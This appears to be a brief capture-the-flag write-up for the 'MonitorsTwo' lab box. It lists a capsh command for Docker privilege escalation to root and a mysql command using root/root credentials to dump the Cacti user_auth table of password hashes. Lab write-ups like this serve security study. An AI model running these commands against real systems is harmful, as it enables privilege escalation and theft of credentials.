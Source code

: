 # MonitorsTwo writeups
### Review
docker priv
```
capsh --gid==0 --uid=0 --
```
run mysql command in socket
```
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth;"
```

